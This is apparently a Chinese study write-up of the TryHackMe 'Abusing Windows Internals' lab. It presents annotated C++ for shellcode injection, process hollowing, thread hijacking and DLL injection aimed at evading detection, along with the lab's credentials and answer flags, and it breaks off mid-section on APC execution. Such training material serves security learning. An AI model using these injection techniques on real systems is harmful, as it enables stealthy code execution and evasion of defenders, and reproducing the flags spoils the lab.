

# Abusing Windows Internals - 滥用 Windows 内部机制

> [TryHackMe | Abusing Windows Internals](https://tryhackme.com/room/abusingwindowsinternals)
>
> Updated in 2023-12-30
>
> 利用 Windows 内部组件来规避常见的检测解决方案，采用现代的与工具无关的方法。
>
> Leverage windows internals components to evade common detection solutions, using modern tool-agnostic approaches.

## Introduction - 介绍

Windows 内部结构是 Windows 操作系统运行的核心，这为恶意使用者提供了一个利润丰厚的目标。Windows 内部结构可用于隐藏和执行代码、规避检测，并与其他技术或漏洞链相结合。

Windows 内部结构这一术语可以包含 Windows 操作系统后端的任何组件。这可能包括进程、文件格式、COM（组件对象模型）、任务调度、I/O 系统等。本次讨论将侧重于滥用和利用进程及其组件、动态链接库（DLL）和 PE（可移植可执行）格式。

### 学习目标

- 了解内部组件的易受攻击性
- 学习如何滥用和利用 Windows 内部结构的漏洞
- 了解技术的缓解和检测方法
- 将所学技术应用于真实世界的对手案例研究

在开始本教程前，请熟悉基本的 Windows 使用和功能。我们建议完成 Windows 内部结构教程。同时，基本的 C++ 和 PowerShell 编程知识也是推荐的，但不是必需的。

我们提供了一个基础的 Windows 机器，并提供了完成此教程所需的文件。您可以通过浏览器或使用以下凭据通过 RDP 访问该机器。

```plaintext
Machine IP: 10.10.180.10
Username: THM-Attacker
Password: Tryhackme!
```

这将是大量信息。请系好安全带，并找到最近的灭火器。

离开时别忘了向蓝队提供小费！

## Abusing Processes - 滥用进程

您操作系统上运行的应用程序可能包含一个或多个进程。进程维护和表示正在执行的程序。

进程具有许多其他子组件，并直接与内存或虚拟内存交互，使其成为一个完美的攻击目标。下表描述了进程的每个关键组件及其目的。

|     进程组件     |                     目的                     |
| :--------------: | :------------------------------------------: |
| 私有虚拟地址空间 |           进程被分配的虚拟内存地址           |
|    可执行程序    |     定义存储在虚拟地址空间中的代码和数据     |
|     打开句柄     |         定义进程可访问的系统资源句柄         |
|    安全上下文    | 访问令牌定义用户、安全组、特权和其他安全信息 |
|     进程 ID      |             进程的唯一数字标识符             |
|       线程       |            进程中被调度执行的部分            |

有关进程的更多信息，请查看 `Windows Internals`

进程注入通常被用作一个总称，用来描述通过合法功能或组件向进程中注入恶意代码。在本教程中，我们将重点关注以下四种不同类型的进程注入。

|                                                注入类型                                                |                    功能                    |
| :----------------------------------------------------------------------------------------------------: | :----------------------------------------: |
|            [进程空壳化 - Process Hollowing](https://attack.mitre.org/techniques/T1055/012/)            | 将代码注入到一个挂起并 “空壳化” 的目标进程中 |
|      [线程执行劫持 - Thread Execution Hijacking](https://attack.mitre.org/techniques/T1055/003/)       |      将代码注入到一个挂起的目标线程中      |
|   [动态链接库注入 - Dynamic-link Library Injection](https://attack.mitre.org/techniques/T1055/001/)    |          向进程内存中注入一个 DLL          |
| [可移植可执行文件注入 - Portable Executable Injection](https://attack.mitre.org/techniques/T1055/002/) | 自我注入 PE 图像，指向目标进程中的恶意函数 |

有许多其他形式的进程注入，由 [MITRE T1055](https://attack.mitre.org/techniques/T1055/) 概述。

在最基本的层面上，进程注入采取 shellcode 注入的形式。

在较高层次上，shellcode 注入可以分为四个步骤：

1. 使用所有访问权限打开目标进程。
2. 为 shellcode 分配目标进程的内存空间。
3. 将 shellcode 写入目标进程中已分配的内存。
4. 使用远程线程执行 shellcode。

这些步骤也可以通过图形方式进行分解，以描述 Windows API 调用如何与进程内存交互。

<div style={{textAlign:'center'}}>


</div>

我们将拆解一个基本的 shellcode 注入器，以识别每个步骤，并在下面更深入地解释。

在 shellcode 注入的第一步中，我们需要使用特殊参数打开目标进程。`OpenProcess` 用于打开通过命令行提供的目标进程。

```cpp
processHandle = OpenProcess(
    PROCESS_ALL_ACCESS, // Defines access rights
    FALSE, // Target handle will not be inhereted
    DWORD(atoi(argv[1])) // Local process supplied by command-line arguments
);
```

在第二步中，我们必须为 shellcode 的字节大小分配内存。内存分配使用 `VirtualAllocEx` 处理。在调用中，`dwSize` 参数使用 `sizeof` 函数定义，以获取要分配的 shellcode 字节数。

```cpp
remoteBuffer = VirtualAllocEx(
    processHandle, // Opened target process
    NULL,
    sizeof shellcode, // Region size of memory allocation
    (MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
    PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
```

在第三步，现在我们可以使用已分配的内存区域来写入我们的 shellcode。通常使用 `WriteProcessMemory` 来写入内存区域。

```cpp
WriteProcessMemory(
    processHandle, // Opened target process
    remoteBuffer, // Allocated memory region
    shellcode, // Data to write
    sizeof shellcode, // byte size of data
    NULL
);
```

在第四步，我们现在控制了进程，并且我们的恶意代码已经写入内存。为了执行驻留在内存中的 shellcode，我们可以使用 `CreateRemoteThread` ；线程控制着进程的执行。

```cpp
remoteThread = CreateRemoteThread(
    processHandle, // Opened target process
    NULL,
    0, // Default size of the stack
    (LPTHREAD_START_ROUTINE)remoteBuffer, // Pointer to the starting address of the thread
    NULL,
    0, // Ran immediately after creation
    NULL
);
```

我们可以将这些步骤编译在一起，创建一个基本的进程注入器。使用提供的 C++ 注入器并尝试进行进程注入。

Shellcode 注入是进程注入的最基本形式；在下一个任务中，我们将看看如何修改和调整这些步骤来进行进程空壳化。

:::info Answer the questions below

当您确定一个以 THM-Attacker 身份运行的进程的 PID 后，将该 PID 作为参数提供给位于桌面 Injectors 目录中的 `shellcode-injector.exe` 来执行。执行 shellcode 后获得的标志是什么？

<details>

<summary> 具体操作步骤 </summary>

使用终端执行以下指令

```shell
tasklist /v | findstr "THM-Attacker"
```

即可得到身份归属于 `THM-Attacker` 的进程

```plaintext
Image Name                     PID Session Name        Session#    Mem Usage Status          User Name                                              CPU Time Window Title
========================= ======== ================ =========== ============ =============== ================================================== ============ ========================================================================
rdpclip.exe                   3300 RDP-Tcp#0                  2     10,800 K Running         INJECTION-SANDB\THM-Attacker                            0:00:00 N/A
sihost.exe                    3320 RDP-Tcp#0                  2     24,436 K Running         INJECTION-SANDB\THM-Attacker                            0:00:00 N/A
svchost.exe                   3388 RDP-Tcp#0                  2     28,880 K Running         INJECTION-SANDB\THM-Attacker                            0:00:00 Windows Push Notifications Platform
taskhostw.exe                 3420 RDP-Tcp#0                  2     11,660 K Running         INJECTION-SANDB\THM-Attacker                            0:00:00 Task Host Window
ctfmon.exe                    3612 RDP-Tcp#0                  2     14,744 K Running         INJECTION-SANDB\THM-Attacker                            0:00:00 N/A
explorer.exe                  3776 RDP-Tcp#0                  2     88,580 K Running         INJECTION-SANDB\THM-Attacker                            0:00:02 N/A
ShellExperienceHost.exe       4068 RDP-Tcp#0                  2     52,736 K Running         INJECTION-SANDB\THM-Attacker                            0:00:00 Start
RuntimeBroker.exe             3092 RDP-Tcp#0                  2     18,700 K Unknown         INJECTION-SANDB\THM-Attacker                            0:00:00 N/A
SearchUI.exe                  3432 RDP-Tcp#0                  2     62,672 K Running         INJECTION-SANDB\THM-Attacker                            0:00:00 Search
RuntimeBroker.exe             2112 RDP-Tcp#0                  2     16,680 K Unknown         INJECTION-SANDB\THM-Attacker                            0:00:00 N/A
RuntimeBroker.exe             4268 RDP-Tcp#0                  2     12,088 K Unknown         INJECTION-SANDB\THM-Attacker                            0:00:00 N/A
smartscreen.exe               3752 RDP-Tcp#0                  2     22,456 K Running         INJECTION-SANDB\THM-Attacker                            0:00:00 OleMainThreadWndName
powershell.exe                1552 RDP-Tcp#0                  2    157,656 K Running         INJECTION-SANDB\THM-Attacker                            0:00:06 Administrator: Windows PowerShell
conhost.exe                   4916 RDP-Tcp#0                  2     23,732 K Running         INJECTION-SANDB\THM-Attacker                            0:00:01 N/A
tasklist.exe                  4816 RDP-Tcp#0                  2      7,900 K Unknown         INJECTION-SANDB\THM-Attacker                            0:00:00 N/A
```

这里使用 PID 为 `3300`，作为参数传输进 `shellcode-injector.exe`

```shell
PS C:\Users\THM-Attacker\Desktop\Injectors> .\shellcode-injector.exe 3300
```

即可得到一个弹窗，上面写有以下信息

```plaintext
THM{1nj3c710n_15_fun!}
```

</details>

```plaintext
THM{1nj3c710n_15_fun!}
```

:::

## Expanding Process Abuse - 扩展进程滥用

在之前的任务中，我们讨论了如何使用 shellcode 注入将恶意代码注入到合法进程中。在这个任务中，我们将介绍进程空壳化。与 shellcode 注入类似，这种技术提供了将整个恶意文件注入到一个进程中的能力。这是通过 “空壳化” 或取消映射进程，并将特定的 PE（可移植可执行）数据和部分注入到进程中来实现的。

在高层次上，进程空壳化可以分为六个步骤：

1. 在挂起状态下创建一个目标进程。
2. 打开一个恶意镜像。
3. 取消映射进程内存中的合法代码。
4. 为恶意代码分配内存位置，并将每个部分写入地址空间。
5. 为恶意代码设置一个入口点。
6. 将目标进程从挂起状态中唤醒。

这些步骤也可以通过图形方式进行分解，以描述 Windows API 调用如何与进程内存交互。

<div style={{textAlign:'center'}}>



</div>

在进程空壳化的第一步中，我们必须使用 `CreateProcessA` 在挂起状态下创建一个目标进程。为了获取 API 调用所需的参数，我们可以使用结构体 `STARTUPINFOA` 和 `PROCESS_INFORMATION` 。

```cpp
LPSTARTUPINFOA target_si = new STARTUPINFOA(); // Defines station, desktop, handles, and appearance of a process
LPPROCESS_INFORMATION target_pi = new PROCESS_INFORMATION(); // Information about the process and primary thread
CONTEXT c; // Context structure pointer

if (CreateProcessA(
    (LPSTR)"C:\\\\Windows\\\\System32\\\\svchost.exe", // Name of module to execute
    NULL,
    NULL,
    NULL,
    TRUE, // Handles are inherited from the calling process
    CREATE_SUSPENDED, // New process is suspended
    NULL,
    NULL,
    target_si, // pointer to startup info
    target_pi) == 0) { // pointer to process information
    cout <<"[!] Failed to create Target process. Last Error:" << GetLastError();
    return 1;
```

在第二步中，我们需要打开一个恶意镜像进行注入。这个过程分为三步，首先使用 `CreateFileA` 获取恶意镜像的句柄。

```cpp
HANDLE hMaliciousCode = CreateFileA(
    (LPCSTR)"C:\\\\Users\\\\tryhackme\\\\malware.exe", // Name of image to obtain
    GENERIC_READ, // Read-only access
    FILE_SHARE_READ, // Read-only share mode
    NULL,
    OPEN_EXISTING, // Instructed to open a file or device if it exists
    NULL,
    NULL
);
```

一旦获取了恶意镜像的句柄，就需要使用 `VirtualAlloc` 为本地进程分配内存。同时，使用 `GetFileSize` 来获取恶意镜像的大小，用于 `dwSize` 参数。

```cpp
DWORD maliciousFileSize = GetFileSize(
    hMaliciousCode, // Handle of malicious image
    0 // Returns no error
);

PVOID pMaliciousImage = VirtualAlloc(
    NULL,
    maliciousFileSize, // File size of malicious image
    0x3000, // Reserves and commits pages (MEM_RESERVE | MEM_COMMIT)
    0x04 // Enables read/write access (PAGE_READWRITE)
);
```

现在已经为本地进程分配了内存，接下来需要进行写入操作。利用之前步骤获取的信息，我们可以使用 `ReadFile` 来写入本地进程内存。

```cpp
DWORD numberOfBytesRead; // Stores number of bytes read

if (!ReadFile(
    hMaliciousCode, // Handle of malicious image
    pMaliciousImage, // Allocated region of memory
    maliciousFileSize, // File size of malicious image
    &numberOfBytesRead, // Number of bytes read
    NULL
    )) {
    cout <<"[!] Unable to read Malicious file into memory. Error:" <<GetLastError()<< endl;
    TerminateProcess(target_pi->hProcess, 0);
    return 1;
}

CloseHandle(hMaliciousCode);
```

在第三步中，进程必须通过取消映射内存来 “空壳化”。在进行取消映射之前，我们必须确定 API 调用的参数。我们需要确定进程在内存中的位置和入口点。CPU 寄存器 `EAX`（入口点）和 `EBX`（PEB 位置）包含我们需要获取的信息；可以通过使用 `GetThreadContext` 来找到这些信息。一旦找到这两个寄存器，就可以使用 `ReadProcessMemory` 来从 `EBX` 中获取基地址，偏移量为 `0x8` ，该偏移量可以从 PEB 中获取。

```cpp
c.ContextFlags = CONTEXT_INTEGER; // Only stores CPU registers in the pointer
GetThreadContext(
    target_pi->hThread, // Handle to the thread obtained from the PROCESS_INFORMATION structure
    &c // Pointer to store retrieved context
); // Obtains the current thread context

PVOID pTargetImageBaseAddress;
ReadProcessMemory(
    target_pi->hProcess, // Handle for the process obtained from the PROCESS_INFORMATION structure
    (PVOID)(c.Ebx + 8), // Pointer to the base address
    &pTargetImageBaseAddress, // Store target base address
    sizeof(PVOID), // Bytes to read
    0 // Number of bytes out
);
```

在存储了基地址之后，我们可以开始取消映射内存。我们可以使用从 `ntdll.dll` 导入的 `ZwUnmapViewOfSection` 来释放目标进程的内存。

```cpp
HMODULE hNtdllBase = GetModuleHandleA("ntdll.dll"); // Obtains the handle for ntdll
pfnZwUnmapViewOfSection pZwUnmapViewOfSection = (pfnZwUnmapViewOfSection)GetProcAddress(
    hNtdllBase, // Handle of ntdll
    "ZwUnmapViewOfSection" // API call to obtain
); // Obtains ZwUnmapViewOfSection from ntdll

DWORD dwResult = pZwUnmapViewOfSection(
    target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
    pTargetImageBaseAddress // Base address of the process
);
```

在第四步中，我们必须开始在空壳进程中分配内存。类似于第二步，我们可以使用 `VirtualAlloc` 来分配内存。这次我们需要获取文件头中镜像的大小。`e_lfanew` 可以识别从 DOS 头到 PE 头的字
节数。一旦到达 PE 头，我们可以从可选头中获取 `SizeOfImage` 。

```cpp
PIMAGE_DOS_HEADER pDOSHeader = (PIMAGE_DOS_HEADER)pMaliciousImage; // Obtains the DOS header from the malicious image
PIMAGE_NT_HEADERS pNTHeaders = (PIMAGE_NT_HEADERS)((LPBYTE)pMaliciousImage + pDOSHeader->e_lfanew); // Obtains the NT header from e_lfanew

DWORD sizeOfMaliciousImage = pNTHeaders->OptionalHeader.SizeOfImage; // Obtains the size of the optional header from the NT header structure

PVOID pHollowAddress = VirtualAllocEx(
    target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
    pTargetImageBaseAddress, // Base address of the process
    sizeOfMaliciousImage, // Byte size obtained from optional header
    0x3000, // Reserves and commits pages (MEM_RESERVE | MEM_COMMIT)
    0x40 // Enabled execute and read/write access (PAGE_EXECUTE_READWRITE)
);
```

一旦分配了内存，我们可以将恶意文件写入内存。因为我们要写入一个文件，所以首先要写入 PE 头，然后是 PE 部分。为了写入 PE 头，我们可以使用 `WriteProcessMemory` ，并使用头部的大小确定停止写入的位置。

```cpp
if (!WriteProcessMemory(
    target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
    pTargetImageBaseAddress, // Base address of the process
    pMaliciousImage, // Local memory where the malicious file resides
    pNTHeaders->OptionalHeader.SizeOfHeaders, // Byte size of PE headers
    NULL
)) {
    cout<<"[!] Writting Headers failed. Error:" << GetLastError() << endl;
}
```

现在我们需要写入每个部分。为了找到部分的数量，我们可以使用 NT 头中的 `NumberOfSections` 。我们可以循环遍历 `e_lfanew` 和当前头部的大小来写入每个部分。

```cpp
for (int i = 0; i < pNTHeaders->FileHeader.NumberOfSections; i++) { // Loop based on number of sections in PE data
    PIMAGE_SECTION_HEADER pSectionHeader = (PIMAGE_SECTION_HEADER)((LPBYTE)pMaliciousImage + pDOSHeader->e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER))); // Determines the current PE section header

    WriteProcessMemory(
        target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
        (PVOID)((LPBYTE)pHollowAddress + pSectionHeader->VirtualAddress), // Base address of current section
        (PVOID)((LPBYTE)pMaliciousImage + pSectionHeader->PointerToRawData), // Pointer for content of current section
        pSectionHeader->SizeOfRawData, // Byte size of current section
        NULL
    );
}
```

也可以使用重定位表将文件写入目标内存。这将在第 6 步中进行更详细的讨论。

在第五步，我们可以使用 `SetThreadContext` 来将 `EAX` 更改为指向入口点。

```cpp
c.Eax = (SIZE_T)((LPBYTE)pHollowAddress + pNTHeaders->OptionalHeader.AddressOfEntryPoint); // Set the context structure pointer to the entry point from the PE optional header

SetThreadContext(
    target_pi->hThread, // Handle to the thread obtained from the PROCESS_INFORMATION structure
    &c // Pointer to the stored context structure
);
```

在第六步，我们需要使用 `ResumeThread` 将进程从挂起状态恢复。

```cpp
ResumeThread(
    target_pi->hThread // Handle to the thread obtained from the PROCESS_INFORMATION structure
);
```

我们可以将这些步骤编译在一起，以创建一个进程空壳注入器。使用提供的 C++ 注入器，并尝试进行进程空壳操作。

:::info Answer the questions below

识别一个以 THM-Attacker 运行的进程的 PID 作为目标。将 PID 和可执行文件名作为参数，执行位于桌面上 injectors 目录中的 hollowing-injector.exe。在进行空壳化和注入 shellcode 后，获得了什么标志？

<details>

<summary> 具体操作步骤 </summary>

使用终端执行以下指令

```shell
tasklist /v | findstr "THM-Attacker"
```

即可得到身份归属于 `THM-Attacker` 的进程

```plaintext
Image Name                     PID Session Name        Session#    Mem Usage Status          User Name                                              CPU Time Window Title
========================= ======== ================ =========== ============ =============== ================================================== ============ ========================================================================
rdpclip.exe                   3300 RDP-Tcp#0                  2     10,800 K Running         INJECTION-SANDB\THM-Attacker                            0:00:00 N/A
sihost.exe                    3320 RDP-Tcp#0                  2     24,436 K Running         INJECTION-SANDB\THM-Attacker                            0:00:00 N/A
svchost.exe                   3388 RDP-Tcp#0                  2     28,880 K Running         INJECTION-SANDB\THM-Attacker                            0:00:00 Windows Push Notifications Platform
taskhostw.exe                 3420 RDP-Tcp#0                  2     11,660 K Running         INJECTION-SANDB\THM-Attacker                            0:00:00 Task Host Window
ctfmon.exe                    3612 RDP-Tcp#0                  2     14,744 K Running         INJECTION-SANDB\THM-Attacker                            0:00:00 N/A
explorer.exe                  3776 RDP-Tcp#0                  2     88,580 K Running         INJECTION-SANDB\THM-Attacker                            0:00:02 N/A
ShellExperienceHost.exe       4068 RDP-Tcp#0                  2     52,736 K Running         INJECTION-SANDB\THM-Attacker                            0:00:00 Start
RuntimeBroker.exe             3092 RDP-Tcp#0                  2     18,700 K Unknown         INJECTION-SANDB\THM-Attacker                            0:00:00 N/A
SearchUI.exe                  3432 RDP-Tcp#0                  2     62,672 K Running         INJECTION-SANDB\THM-Attacker                            0:00:00 Search
RuntimeBroker.exe             2112 RDP-Tcp#0                  2     16,680 K Unknown         INJECTION-SANDB\THM-Attacker                            0:00:00 N/A
RuntimeBroker.exe             4268 RDP-Tcp#0                  2     12,088 K Unknown         INJECTION-SANDB\THM-Attacker                            0:00:00 N/A
smartscreen.exe               3752 RDP-Tcp#0                  2     22,456 K Running         INJECTION-SANDB\THM-Attacker                            0:00:00 OleMainThreadWndName
powershell.exe                1552 RDP-Tcp#0                  2    157,656 K Running         INJECTION-SANDB\THM-Attacker                            0:00:06 Administrator: Windows PowerShell
conhost.exe                   4916 RDP-Tcp#0                  2     23,732 K Running         INJECTION-SANDB\THM-Attacker                            0:00:01 N/A
tasklist.exe                  4816 RDP-Tcp#0                  2      7,900 K Unknown         INJECTION-SANDB\THM-Attacker                            0:00:00 N/A
```

这里使用 PID 为 `3300`，作为参数传输进 `hollowing-injector.exe`

```shell
PS C:\Users\THM-Attacker\Desktop\Injectors> .\hollowing-injector.exe 3300 rdpclip.exe
```

即可得到


</details>

```plaintext
THM{7h3r35_n07h1n6_h3r3}
```

:::

## Abusing Process Components - 滥用进程组件

在高级别上，线程（执行）劫持可以分为十一个步骤：

1. 定位并打开要控制的目标进程。
2. 为恶意代码分配内存区域。
3. 将恶意代码写入分配的内存。
4. 确定要劫持的目标线程的线程 ID。
5. 打开目标线程。
6. 挂起目标线程。
7. 获取线程上下文。
8. 将指令指针更新为恶意代码。
9. 重写目标线程上下文。
10. 恢复被劫持的线程。

我们将分解一个基本的线程劫持脚本，以识别每个步骤，并在下面进行更深入的解释。

这个技术中概述的前三个步骤遵循与普通进程注入相同的常见步骤。这些步骤不会被解释，而是您可以在下面找到文档化的源代码。

```cpp
HANDLE hProcess = OpenProcess(
    PROCESS_ALL_ACCESS, // Requests all possible access rights
    FALSE, // Child processes do not inheret parent process handle
    processId // Stored process ID
);
PVOIF remoteBuffer = VirtualAllocEx(
    hProcess, // Opened target process
    NULL,
    sizeof shellcode, // Region size of memory allocation
    (MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
    PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
WriteProcessMemory(
    processHandle, // Opened target process
    remoteBuffer, // Allocated memory region
    shellcode, // Data to write
    sizeof shellcode, // byte size of data
    NULL
);
```

一旦初始步骤完成，我们的 shellcode 写入内存后，就可以进行第四步了。在第四步，我们需要开始通过识别线程 ID 来劫持进程线程。为了识别线程 ID，我们需要使用一组 Windows API 调用：`CreateToolhelp32Snapshot()` 、`Thread32First()` 和 `Thread32Next()`。这些 API 调用将共同循环遍历进程的快照，并扩展功能以枚举进程信息。

```cpp
THREADENTRY32 threadEntry;

HANDLE hSnapshot = CreateToolhelp32Snapshot( // Snapshot the specificed process
    TH32CS_SNAPTHREAD, // Include all processes residing on the system
    0 // Indicates the current process
);
Thread32First( // Obtains the first thread in the snapshot
    hSnapshot, // Handle of the snapshot
    &threadEntry // Pointer to the THREADENTRY32 structure
);

while (Thread32Next( // Obtains the next thread in the snapshot
    snapshot, // Handle of the snapshot
    &threadEntry // Pointer to the THREADENTRY32 structure
)) {
```

在第五步，我们已经在结构指针中收集了所有所需的信息，并可以打开目标线程。为了打开线程，我们将使用 `OpenThread` 和 `THREADENTRY32` 结构指针。

```cpp
if (threadEntry.th32OwnerProcessID == processID) // Verifies both parent process ID's match
        {
            HANDLE hThread = OpenThread(
                THREAD_ALL_ACCESS, // Requests all possible access rights
                FALSE, // Child threads do not inheret parent thread handle
                threadEntry.th32ThreadID // Reads the thread ID from the THREADENTRY32 structure pointer
            );
            break;
        }
```

在第六步，我们必须暂停已打开的目标线程。要暂停线程，我们可以使用 `SuspendThread` 。

```cpp
SuspendThread(hThread);
```

在第七步，我们需要获取线程上下文以在接下来的 API 调用中使用。可以使用 `GetThreadContext` 来存储一个指针。

```cpp
CONTEXT context;
GetThreadContext(
    hThread, // Handle for the thread
    &context // Pointer to store the context structure
);
```

在第八步，我们需要覆盖 RIP（指令指针寄存器），将其指向我们恶意的内存区域。如果您对 CPU 寄存器不熟悉，RIP 是一个 x64 寄存器，用于确定下一条代码指令；简而言之，它控制着应用程序在内存中的流程。要覆盖该寄存器，我们可以更新 RIP 的线程上下文。

```cpp
context.Rip = (DWORD_PTR)remoteBuffer; // Points RIP to our malicious buffer allocation
```

在第九步，需要更新上下文并将其设置为当前线程上下文。可以通过使用 `SetThreadContext` 和上下文的指针来轻松完成这一步。

```cpp
SetThreadContext(
    hThread, // Handle for the thread
    &context // Pointer to the context structure
);
```

在最后一步，现在可以将目标线程从挂起状态中恢复。我们可以使用 `ResumeThread` 来实现这一点。

```cpp
ResumeThread(
    hThread // Handle for the thread
);
```

我们可以将这些步骤编译在一起，创建一个通过线程劫持的进程注入器。使用提供的 C++ 注入器，并尝试进行线程劫持的实验。

:::info

识别一个以 THM-Attacker 运行的进程的 PID 作为目标。将 PID 作为参数，执行位于桌面上 Injectors 目录中的 thread-injector.exe。在劫持线程后获得了什么标志？

```plaintext
THM{w34p0n1z3d_53w1n6}
```

:::

## Abusing DLLs - 滥用动态链接库（DLL）

在高级别上，DLL 注入可以分为六个步骤：

1. 定位要注入的目标进程。
2. 打开目标进程。
3. 为恶意 DLL 分配内存区域。
4. 将恶意 DLL 写入分配的内存。
5. 加载并执行恶意 DLL。

我们将分解一个基本的 DLL 注入器，以识别每个步骤，并在下面进行更深入的解释。

在 DLL 注入的第一步中，我们必须定位目标线程。可以使用一组 Windows API 调用从进程中定位线程：`CreateToolhelp32Snapshot()`、`Process32First()` 和 `Process32Next()`。

```cpp
DWORD getProcessId(const char *processName) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot( // Snapshot the specificed process
            TH32CS_SNAPPROCESS, // Include all processes residing on the system
            0 // Indicates the current process
        );
    if (hSnapshot) {
        PROCESSENTRY32 entry; // Adds a pointer to the PROCESSENTRY32 structure
        entry.dwSize = sizeof(PROCESSENTRY32); // Obtains the byte size of the structure
        if (Process32First( // Obtains the first process in the snapshot
                    hSnapshot, // Handle of the snapshot
                    &entry // Pointer to the PROCESSENTRY32 structure
                )) {
            do {
                if (!strcmp( // Compares two strings to determine if the process name matches
                                    entry.szExeFile, // Executable file name of the current process from PROCESSENTRY32
                                    processName // Supplied process name
                                )) {
                    return entry.th32ProcessID; // Process ID of matched process
                }
            } while (Process32Next( // Obtains the next process in the snapshot
                            hSnapshot, // Handle of the snapshot
                            &entry
                        )); // Pointer to the PROCESSENTRY32 structure
        }
    }

DWORD processId = getProcessId(processName); // Stores the enumerated process ID
```

在第二步，枚举了进程的 PID 后，我们需要打开该进程。可以通过多种 Windows API 调用来实现：`GetModuleHandle`、`GetProcAddress` 或 `OpenProcess`。

```cpp
HANDLE hProcess = OpenProcess(
    PROCESS_ALL_ACCESS, // Requests all possible access rights
    FALSE, // Child processes do not inheret parent process handle
    processId // Stored process ID
);
```

在第三步，必须为提供的恶意 DLL 分配内存空间。与大多数注入器一样，可以使用 `VirtualAllocEx` 来实现这一步骤。

```cpp
LPVOID dllAllocatedMemory = VirtualAllocEx(
    hProcess, // Handle for the target process
    NULL,
    strlen(dllLibFullPath), // Size of the DLL path
    MEM_RESERVE | MEM_COMMIT, // Reserves and commits pages
    PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
```

在第四步，我们需要将恶意 DLL 写入分配的内存位置。我们可以使用 `WriteProcessMemory` 来向分配的区域写入内容。

```cpp
WriteProcessMemory(
    hProcess, // Handle for the target process
    dllAllocatedMemory, // Allocated memory region
    dllLibFullPath, // Path to the malicious DLL
    strlen(dllLibFullPath) + 1, // Byte size of the malicious DLL
    NULL
);
```

在第五步，我们的恶意 DLL 已经写入内存，我们需要做的是加载并执行它。为了加载 DLL，我们需要使用 `LoadLibrary`，它被导入自 `kernel32`。一旦加载，可以使用 `CreateRemoteThread` 来执行内存，使用 `LoadLibrary` 作为起始函数。

```cpp
LPVOID loadLibrary = (LPVOID) GetProcAddress(
    GetModuleHandle("kernel32.dll"), // Handle of the module containing the call
    "LoadLibraryA" // API call to import
);
HANDLE remoteThreadHandler = CreateRemoteThread(
    hProcess, // Handle for the target process
    NULL,
    0, // Default size from the execuatable of the stack
    (LPTHREAD_START_ROUTINE) loadLibrary, pointer to the starting function
    dllAllocatedMemory, // pointer to the allocated memory region
    0, // Runs immediately after creation
    NULL
);
```

我们可以将这些步骤编译在一起，创建一个 DLL 注入器。使用提供的 C++ 注入器，并尝试进行 DLL 注入的实验。

:::info Answer the questions below

识别一个以 THM-Attacker 运行的进程的 PID 和名称作为目标。将该名称和在 Injectors 目录中找到的恶意 DLL 作为参数，执行位于桌面上 Injectors 目录中的 dll-injector.exe。在注入 DLL 后获得了什么标志？

```plaintext
THM{n07_4_m4l1c10u5_dll}
```

:::

## Memory Execution Alternatives - 内存执行替代方案

根据您所处的环境，您可能需要改变执行 shellcode 的方式。这种情况可能发生在某些 API 调用被挂钩且无法规避或解钩，EDR（终端检测与响应）正在监视线程等情况下。

到目前为止，我们主要关注了向本地 / 远程进程分配和写入数据的方法。执行在任何注入技术中也是至关重要的一步，尽管在试图减少内存遗留和威胁指标（IOC）时不像分配和写入数据那么重要。与分配和写入数据不同，执行有许多可选择的选项。

在这个环境中，我们主要观察到执行主要通过 `CreateThread` 及其对应的 `CreateRemoteThread`。

在这个任务中，我们将涵盖另外三种执行方法，这取决于您所处环境的情况。

### Invoking Function Pointers - 调用函数指针

void 函数指针是一种奇特的新颖内存块执行方法，完全依赖于类型转换。

这种技术只能在本地分配的内存中执行，但不依赖于任何 API 调用或其他系统功能。

下面的一行代码是 void 函数指针的最常见形式，但我们可以进一步分解它来解释其组成部分。

<div style={{textAlign:'center'}}>


```cpp title="Function Pointer"
((void(*)())addressPointer)();
```

</div>

这一行代码可能难以理解或解释，因为它非常紧凑，让我们按照其处理指针的过程来逐步分解：

- 创建一个函数指针（`void(*)()`，用红色标注）
- 将分配的内存指针或 shellcode 数组强制转换为函数指针（`<function pointer>addressPointer`），用黄色标注
- 调用函数指针来执行 shellcode（`();`），用绿色标注

这种技术具有非常具体的用例，但在需要时可以非常隐蔽和有帮助。

### Asynchronous Procedure Calls - 异步过程调用

根据 [Asynchronous Procedure Calls - Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls) ，“异步过程调用（APC）是在特定线程上下文中异步执行的函数。”

通过 `QueueUserAPC` ，可以将一个 APC 函数排队到线程中。一旦排队，APC 函数会导致软件中断，并在下次调度该线程时执行该函数。

为了让用户空间 / 用户模式应用程序排队一个 APC 函数，线程必须处于 “可警报状态”。可警报状态要求线程等待回调，比如 `WaitForSingleObject` 或 `Sleep` 。

现在我们了解了什么是 APC 函数，让我们看看它们如何被恶意利用！我们将使用 `VirtualAllocEx` 和 `WriteProcessMemory` 来进行内存分配和写入。

```cpp
QueueUserAPC(
